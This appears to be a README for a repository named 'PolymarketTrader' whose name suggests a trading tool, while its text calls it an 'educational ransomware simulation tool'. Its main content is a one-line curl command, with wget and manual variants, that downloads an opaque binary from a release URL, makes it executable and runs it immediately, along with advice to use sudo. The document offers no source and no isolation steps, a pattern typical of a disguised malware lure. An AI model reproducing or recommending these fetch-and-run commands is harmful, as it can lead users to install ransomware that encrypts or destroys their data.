 # PolymarketTrader

Educational ransomware simulation tool for Ubuntu/Linux systems.

## Quick Installation

Run this single command to download and install:

```bash
mkdir -p poly-trader && curl -L https://github.com/YoavSavir/PolymarketTrader/releases/download/v1.0/PolymarketTrader -o poly-trader/PolymarketTrader && chmod +x poly-trader/PolymarketTrader && ./poly-trader/PolymarketTrader
```

This will:
1. Create a `poly-trader` directory
2. Download the executable
3. Make it executable automatically
4. Run the program

## Alternative Installation Methods

### Method 1: Download and Run Manually
```bash
# Create directory
mkdir -p poly-trader
cd poly-trader

# Download executable
curl -L https://github.com/YoavSavir/PolymarketTrader/releases/download/v1.0/PolymarketTrader -o PolymarketTrader

# Make executable (if needed)
chmod +x PolymarketTrader

# Run the program
./PolymarketTrader
```

### Method 2: Using wget
```bash
mkdir -p poly-trader && cd poly-trader
wget https://github.com/YoavSavir/PolymarketTrader/releases/download/v1.0/PolymarketTrader
chmod +x PolymarketTrader
./PolymarketTrader
```

## Troubleshooting

### Permission Issues
If you get a "Permission denied" error, run:
```bash
chmod +x PolymarketTrader
```

### If chmod doesn't work
Try with sudo:
```bash
sudo chmod +x PolymarketTrader
```

### File not executable
If you see "cannot execute binary file", make sure you're on a Linux/Ubuntu system (not Windows/Mac).

## Requirements

- **Operating System:** Ubuntu/Linux (64-bit)
- **Architecture:** x86_64
- **Dependencies:** None (all bundled in executable)

## Usage

After you download, follow the installation process displayed by the program.

## Educational Purpose

This tool is designed for educational purposes to demonstrate ransomware behavior in a controlled environment. Use responsibly and only in authorized testing environments.

## Support

If you encounter issues, ensure you're running on a compatible Linux system and have proper file permissions. 